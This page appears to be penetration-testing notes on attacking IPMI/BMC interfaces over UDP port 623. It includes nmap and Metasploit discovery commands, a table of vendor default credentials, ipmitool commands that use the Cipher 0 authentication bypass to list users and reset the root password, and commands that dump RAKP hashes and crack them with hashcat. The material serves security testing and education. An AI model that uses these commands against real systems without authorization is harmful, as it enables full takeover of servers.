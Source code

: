 ```yaml
---
title: 623 - Intelligent Platform Management Interface (IPMI)  
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - intelligent platform management interface
  - port 623
  - ipmi
  - bcm
---
```


# 623 - Intelligent Platform Management Interface (IPMI)

Intelligent Platform Management Interface (IPMI) is a system management tool that provides sysadmins with the ability to manage and monitor systems even if they are powered off or in an unresponsive state.  It operates using a direct network connection to the system's hardware and does not require access to the operating system via a login shell. IPMI can also be used for remote upgrades to systems without requiring physical access to the target host. IPMI communicates over port 623 UDP. IPMI is typically used in three ways:

- Before the OS has booted to modify BIOS settings
- When the host is fully powered down
- Access to a host after a system failure



## Footprinting ipmi

Many Baseboard Management Controllers (BMCs) (including HP iLO, Dell DRAC, and Supermicro IPMI) expose a web-based management console, some sort of command-line remote access protocol such as Telnet or SSH, and the port 623 UDP, which, again, is for the IPMI network protocol.

### Discovery

```bash
nmap -n -p 623 10.0.0./24
nmap -n-sU -p 623 10.0.0./24
use  auxiliary/scanner/ipmi/ipmi_version
```

### Version

```shell-session
 sudo nmap -sU --script ipmi-version -p 623 <hostname/IP>
```

Metasploit scanner module [IPMI Information Discovery (auxiliary/scanner/ipmi/ipmi_version)](https://www.rapid7.com/db/modules/auxiliary/scanner/ipmi/ipmi_version/): this module discovers host information through IPMI Channel Auth probes:

```msfc
use auxiliary/scanner/ipmi/ipmi_version

show actions ...actions... msf 
set ACTION < action-name > msf 
show options 
# and set needed options
run
```

We might find BMCs where the administrators have not changed the default password:

|Product|Username|Password|
|---|---|---|
| Dell Remote Access Card (iDRAC, DRAC) |root|calvin|
|HP Integrated Lights Out (iLO)|Administrator|randomized 8-character string consisting of numbers and uppercase letters|
|Supermicro IPMI (2.0) |ADMIN|ADMIN|
| IBM Integrated Management Module (IMM) | USERID | PASSW0RD (with a zero) |
| Fujitsu Integrated Remote Management Controller | admin | admin |
| Oracle/Sun Integrated Lights Out Manager (ILOM) | root | changeme |
| ASUS iKVM BMC | admin | admin |

These default passwords may gain us access to the web console or even command line access via SSH or Telnet.

### Vulnerability - IPMI Authentication Bypass via Cipher 0

Dan Farmer identified a serious failing of the IPMI 2.0 specification, namely that cipher type 0, an indicator that the client wants to use clear-text authentication, actually **allows access with any password**. Cipher 0 issues were identified in HP, Dell, and Supermicro BMCs, with the issue likely encompassing all IPMI 2.0 implementations.

```msf
use auxiliary/scanner/ipmi/ipmi_cipher_zero
```

Abuse this flaw with `ipmitool`:

```bash
# Install
apt-get install ipmitool 

# Use Cipher 0 to dump a list of users. With -C 0 any password is accepted
ipmitool -I lanplus -C 0 -H $ip -U root -P root user list 

# Change the password of root
ipmitool -I lanplus -C 0 -H $ip -U root -P root user set password 2 abc123 
```

### IPMI 2.0 RAKP Remote SHA1 Password Hash Retrieval

If default credentials do not work to access a BMC, we can turn to a flaw in the RAKP protocol in IPMI 2.0. During the authentication process, the server sends a salted SHA1 or MD5 hash of the user's password to the client before authentication takes place.

[Metasploit module](metasploit.md):

This module identifies IPMI 2.0-compatible systems and attempts to retrieve the HMAC-SHA1 password hashes of default usernames. The hashes can be stored in a file using the OUTPUT_FILE option and then cracked using hmac_sha1_crack.rb in the tools subdirectory as well hashcat (cpu) 0.46 or newer using type 7300. 

```msf
use auxiliary/scanner/ipmi/ipmi_dumphashes

show actions

set ACTION < action-name >

show options
# set <options>

run
```

[Hashcat](hashcat.md): 

```bash
hashcat -m 7300 ipmi.txt -a 3 ?1?1?1?1?1?1?1?1 -1 ?d?u
```



## How does IPMI work

IPMI can monitor a range of different things such as system temperature, voltage, fan status, and power supplies. It can also be used for querying inventory information, reviewing hardware logs, and alerting using [SNMP](snmp.md). The host system can be powered off, but the IPMI module requires a power source and a LAN connection to work correctly.

Systems using IPMI version 2.0 can be administered via serial over LAN, giving sysadmins the ability to view serial console output in band. To function, IPMI requires the following components:

- Baseboard Management Controller (BMC) - A micro-controller and essential component of an IPMI
- Intelligent Chassis Management Bus (ICMB) - An interface that permits communication from one chassis to another
- Intelligent Platform Management Bus (IPMB) - extends the BMC
- IPMI Memory - stores things such as the system event log, repository store data, and more
- Communications Interfaces - local system interfaces, serial and LAN interfaces, ICMB and PCI Management Bus.


**Baseboard Management Controllers (BMCs)**: Systems that use the IPMI protocol.

>BMCs are built into many motherboards but can also be added to a system as a PCI card. Most servers either come with a BMC or support adding a BMC. The most common BMCs we often see during internal penetration tests are HP iLO, Dell DRAC, and Supermicro IPMI.

If we can access a BMC during an assessment, we would gain full access to the host motherboard and be able to monitor, reboot, power off, or even reinstall the host operating system. Gaining access to a BMC is nearly equivalent to physical access to a system.

## Resources

- **hacktricks**: [https://book.hacktricks.xyz/network-services-pentesting/623-udp-ipmi](https://book.hacktricks.xyz/network-services-pentesting/623-udp-ipmi)
